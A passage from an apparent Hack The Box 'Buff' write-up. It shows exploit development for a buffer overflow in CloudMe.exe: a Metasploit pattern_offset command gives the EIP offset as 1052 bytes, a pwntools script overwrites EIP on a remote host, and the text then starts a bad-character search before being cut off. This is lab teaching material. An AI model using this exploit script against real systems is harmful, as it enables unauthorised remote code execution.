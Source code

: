 
by quering the pattern I find that the offset is at 1052 bytes
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x316A4230
[*] Exact match at offset 1052
````

To prove this I send 1052 "U"s and 4 "f"s, if its correct I'll see 66666666 in the EIP register 

```python
from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4

    payload = buffer + eip

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
```

Before running the exploit I reload cloudme.exe in the debugger.

After sending the new string I verify that I have control over the EIP and can continue creating the exploit 

![Desktop View](/img/htb/buff/registers_3.png)

#### looking for badchars

I'll start searching for badchars that might affect the execution of the shellcode, to do this I will send a bytearray of all the characters from `\x00` to `xff`
